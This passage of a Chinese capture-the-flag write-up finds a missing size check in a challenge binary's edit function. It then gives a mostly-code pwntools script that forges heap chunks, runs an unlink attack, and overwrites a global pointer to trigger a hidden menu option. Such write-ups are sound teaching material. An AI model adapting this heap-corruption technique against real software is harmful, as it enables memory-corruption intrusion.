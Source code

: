 那么我们继续观察各个功能函数的代码,发现edit_song函数没有对chunk的大小进行检查,所以我们可以轻易地编辑到下一个chunk的内容.

![image-20250104160327006](C:\Users\POI\AppData\Roaming\Typora\typora-user-images\image-20250104160327006.png)

那么接下来就是相当公式化的unlink,使用ctrl c+v编写脚本如下:

```python
from pwn import*
context.log_level='debug'
context.arch='amd64'

r=process("./mygo")
pause()
def cre_s(size,content):
    r.recvuntil(b"Your choice :")
    r.sendline(b"1")
    r.sendline(str(size))
    r.send(content)

def edi_s(index,size,content):
    r.recvuntil(b"Your choice :")
    r.sendline(b"2")
    r.sendline(str(index))
    r.sendline(str(size))
    r.send(content.ljust(size,b'\x00'))

def del_s(index):
    r.recvuntil(b"Your choice :")
    r.sendline(b"3")
    r.sendline(str(index))

def itsmygo():
    r.recvuntil(b"Your choice :")
    r.sendline(b"947")

heap_add=0x6020E0

cre_s(0x48,b'a')
cre_s(0x80,b'a')
cre_s(0x80,b'a')

pay1=p64(0)+p64(0x41)+p64(heap_add-0x18)+p64(heap_add-0x10)+b'a'*0x20+p64(0x40)+p64(0x90)
edi_s(0,0x50,pay1)

del_s(1)
edi_s(0,0x20,p64(0)*3+p64(0x6020c0))
edi_s(0,0x8,p64(0x1306))

pause()
itsmygo()
r.interactive()
```
